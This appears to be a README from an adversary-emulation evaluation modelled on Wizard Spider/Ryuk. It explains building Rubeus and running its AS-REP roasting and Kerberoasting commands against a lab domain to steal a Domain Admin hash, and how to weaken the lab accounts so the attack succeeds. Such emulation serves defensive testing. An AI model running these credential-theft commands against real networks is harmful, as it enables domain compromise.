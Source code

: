 # Rubeus

"Rubeus is a C# toolset for raw Kerberos interaction and abuses."

The goal for this evaluation is to steal the hash of the Domain Admin as a Domain User.

### Build Instructions

Open the command prompt (cmd.exe), navigate to directory containing the Rubeus Visual Studio solution file (Rubeus.sln), and run the devenv.exe command:

 cd wizard_spider\Resources\Rubeus
 "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\devenv.exe" Rubeus.sln /build Release

 # alternate build command
 "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\MSBuild\Current\Bin\msbuild.exe" Rubeus.sln -property:Configuration=Release

The executable will be found in the bin\Release folder.

### Test Instructions

Open PowerShell

 cd wizard_spider\Resources\Rubeus\
 rubeus_test.ps1

### Usage Examples

 # execute AS-Rep Roast
 rubeus.exe asreproast /domain:oz.local

 # execute Kerberoast
 # must be executed as a domain user (oz\user) NOT a local user (dorothy\user)
 # may want to consider adding /format:hashcat as an argument (default format is John)
 rubeus.exe kerberoast /domain:oz.local

### Cleanup Instructions

Open a command prompt or PowerShell

 del rubeus.exe

### Misc

Conditions required to successfully compromise the Domain Admin password via Kerberoasting during the evaluation:

- The Domain Admin must have a crackable password

- The Domain Admin must have a Service Principal Name (SPN) associated with their account

 ```
 # Example command to set the SPN:
 setspn -s exchange/oz.local oz/kfleming
 ```

Additionally, the CTI indicates the adversary also attempts AS-Rep Roasting. For this to work, Kerberos pre-authentication must be disabled (not done by default).

  ```
Log into Domain Controller
Run (Windows-R) dsa.msc
Select Domain Admin account
Go to the Account tab
In account options, check 'Do not require Kerberos preauthentication'
  ```

### CTI Evidence
<https://attack.mitre.org/groups/G0102/>
<https://thedfirreport.com/2020/10/08/ryuks-return/>
<https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>

### References
<https://github.com/GhostPack/Rubeus>
<https://social.technet.microsoft.com/wiki/contents/articles/717.service-principal-names-spn-setspn-syntax.aspx>
<https://blog.zsec.uk/path2da-pt2/>
<https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019>
